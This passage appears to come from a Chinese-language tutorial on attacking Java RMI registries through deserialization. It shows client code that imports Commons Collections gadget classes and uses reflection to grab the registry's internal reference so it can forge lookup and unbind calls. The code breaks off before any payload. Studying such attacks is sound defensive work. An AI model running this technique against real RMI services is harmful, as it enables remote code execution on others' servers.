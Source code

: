 ```java
                new Class[] { Remote.class }, o));
        return r;
    }
 
    public static void main(String[] args) throws Exception{
        new RMIClient().lookup();
    }
 
}
```

****调用lookup&unbind****

Server不变

Client

```java
package learn.rmi.serialize;
 
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;
 
import java.io.ObjectOutput;
import java.io.Serializable;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;
 
public class RMIClient2 implements Serializable {
 
    public void lookup() throws Exception{
 
        //获取Registry
        String rmi = "192.168.1.102";
        Integer port=1099;
        Registry registry = LocateRegistry.getRegistry(rmi,port);
 
        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);
 
        //获取operations
 
        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);
 
        // 伪造lookup的代码，去伪造传输信息
```